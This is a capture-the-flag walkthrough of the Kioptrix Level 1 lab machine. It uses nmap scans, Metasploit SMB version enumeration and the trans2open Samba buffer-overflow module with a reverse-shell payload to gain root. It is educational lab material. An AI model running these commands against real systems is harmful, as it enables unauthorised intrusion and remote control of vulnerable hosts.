 # Kioptrix: Level 1
### Solved using Metasploit

Let Host discovery from Attack machine , run `ifconifg` and note our machine ip `192.168.69.5` , so network IP range will be `192.168.69.0` - `192.168.69.255` with subnet of `255:225:225:0`

`-sn` Ping Scan Disable port

```
nmap -sn 192.168.69.0/24
```

output

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-28 23:24 CDT
Nmap scan report for 192.168.69.1
Host is up (0.00022s latency).
Nmap scan report for 192.168.69.5
Host is up (0.00013s latency).
Nmap scan report for 192.168.69.6                <<<<<< vuln machine
Host is up (0.00046s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 2.91 seconds
```

we got machine running on 192.168.69.6

<img src="../img/Pasted image 20240529095558.png" alt="Example Image" width="1080"/>

Version Scan

```
nmap -sV 192.168.69.6
```

```
-sV: Probe open ports to determine service/version info
             --version-intensity <level>: Set from 0 (light) to 9 (try all probes)
             --version-light: Limit to most likely probes (intensity 2)
             --version-all: Try every single probe (intensity 9)
             --version-trace: Show detailed version scan activity (for debugging)
```

output

```
└─$ nmap -sV 192.168.69.6
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-28 23:27 CDT
Nmap scan report for 192.168.69.6
Host is up (0.00042s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp   open  rpcbind     2 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
32768/tcp open  status      1 (RPC #100024)
```

`-sV` enable OS detection and version detection , script scanning , traceroute

we know it running , Samba and its Server Message Block server ,then find version of that service , using Metasploit , search `smb_version` exploit in Metasploit , and got `auxiliary/scanner/smb/smb_version`

```
msfconsole
use auxiliary/scanner/smb/smb_version
show options
```

```
Name     Current Setting  Required  Description
----     ---------------  --------  -----------
RHOSTS                    yes       The target host(s)
```

set target machine ip for `rhosts`

```
msf6 auxiliary(scanner/smb/smb_version) > set rhosts 192.168.69.6
rhosts => 192.168.69.6
exploit
```

```
[*] 192.168.69.6:139      - SMB Detected (versions:) (preferred dialect:) (signatures:optional)
[*] 192.168.69.6:139      -   Host could not be identified: Unix (Samba 2.2.1a) <<<<<,
[*] 192.168.69.6:         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/

it looks like version Samba 2.2.1a is vulnerable to `exploit/linux/samba/trans2open`

Description of trans2open

```
This exploits the buffer overflow found in Samba versions
  2.2.0 to 2.2.8. This particular module is capable of
  exploiting the flaw on x86 Linux systems that do not
  have the noexec stack option set.
```

```
use  exploit/linux/samba/trans2open
set payload generic/shell_reverse_tcp    # Becuase no payload has been configed
set rhosts 192.168.69.6
run
```

Boom !!! we got root flag

<img src="../img/Pasted image 20240529101919.png" alt="Example Image" width="1080"/>

I Escalated Root Access !!
